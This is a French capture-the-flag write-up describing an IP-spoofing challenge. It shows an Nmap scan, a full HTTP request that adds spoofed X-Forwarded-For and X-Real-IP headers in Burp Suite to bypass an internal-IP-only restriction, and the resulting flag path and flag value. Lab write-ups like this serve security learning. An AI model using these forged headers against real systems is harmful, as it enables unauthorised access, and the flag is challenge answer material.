


**Tags :** IP-Spoofing Web

---

## 1. Énumération

#### Scan de ports

Un scan Nmap révèle que le port **80** est ouvert.



#### Analyse du problème

Lors de l'accès à la page web, l'accès est restreint. Le site affiche l'adresse IP du visiteur et précise que l'accès sans mot de passe n'est autorisé que depuis l'adresse IP du réseau interne : 63.33.59.27.

---

## 2. Exploitation (IP Spoofing)

Puisque le serveur se base sur les en-têtes HTTP pour identifier l'origine de la connexion, nous allons falsifier notre adresse IP via **Burp Suite**.

#### Méthode

1. Intercepter la requête HTTP vers la racine / avec Burp Suite.
    
2. Envoyer la requête vers le **Repeater**.
    
3. Ajouter les en-têtes suivants pour simuler une connexion depuis l'IP autorisée :
    

code Http

```
X-Forwarded-For: 63.33.59.27
X-Real-IP: 63.33.59.27
```

**Requête finale dans le Repeater :**

code Http

```
GET / HTTP/1.1
Host: <IP_Machine>
X-Forwarded-For: 63.33.59.27
X-Real-IP: 63.33.59.27
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

#### Résultat

Le serveur valide notre identité et nous redirige (302 Found) vers le répertoire contenant le flag.



La réponse HTTP contient le chemin vers le fichier : /2kf84qoqi6sviu7poeu54p9b/flag.txt.

---

## 3. Lecture du Flag

En accédant au chemin indiqué, nous obtenons le flag :

**Flag :** 5bdd59d4-2ab4-4a30-af10-534e35e7065d
